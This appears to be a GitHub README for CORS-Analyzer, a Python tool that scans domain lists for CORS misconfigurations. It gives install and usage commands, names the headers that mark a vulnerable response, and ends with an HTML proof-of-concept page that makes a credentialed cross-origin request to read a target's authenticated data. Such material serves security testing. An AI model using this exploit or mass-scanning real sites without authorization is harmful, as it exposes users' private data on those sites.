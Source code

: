 # CORS-Analyzer
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/lib/banner/cors-analyzerfull.png)

### How to install CORS-Analyzer:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt 
cd lib && chmod +x cors.py
sudo ln -s "$(pwd)/cors.py" /usr/local/bin/cors-analyzer 
cors-analyzer
```
Now type "cors-analyzer" to access the CORS analyzer tool from anywhere

### How to install using pip:

```
For first time installation use the following command,
    pip install cors-analyzer

If you want to install the latest version of CORS-Analyzer just uninstall the old version using the following command,
    pip uninstall cors-analyzer
    pip install --upgrade cors-analyzer

For upgrade, use the following command,
    pip install --upgrade cors-analyzer

For ignore the cache, use the following command,
    pip install --ignore-cache cors-analyzer
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 cors-analyzer                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 cors-analyzer | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

Goto this line and replace the URL xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);

```
<!DOCTYPE html>
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
             xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```